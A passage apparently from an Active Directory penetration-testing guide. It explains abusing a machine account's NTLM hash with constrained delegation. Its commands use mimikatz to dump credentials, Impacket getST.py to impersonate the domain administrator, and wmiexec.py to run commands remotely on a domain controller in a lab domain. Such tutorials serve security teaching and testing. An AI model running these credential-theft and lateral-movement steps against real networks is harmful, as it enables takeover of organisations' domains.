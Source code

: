 #### Use machine account Hash value 2.0

The same as the Hash value attack idea of ​​using a machine account, and it is also the Hash value of the machine account. However, here we use the getST.py script in the Impacket tool suite to request service tickets, and use the script to log in remotely through the `wmiexec.py` tool.

Conditions of use:
- Requires `Administrator` permission
- The target machine account is configured with binding delegation

```powershell
# mimikatz get machine account NTLM Hash value
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Use getST to apply for service tickets
python3 getST.py -dc-ip 10.10.10.137 -spn CIFS/DC.hack.local -impersonate administrator hack.local/WIN-WEB$ -hashes :dd3c90bd9c09c393521d46fe8955e9f6

# Use tickets to access remotely, you need to add the domain name to hosts
KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.local/administrator@DC.hack.local -no-pass -dc-ip 10.10.10.137
```

![](./images/23.png#pic_center)

#### Use machine account Hash value 3.0
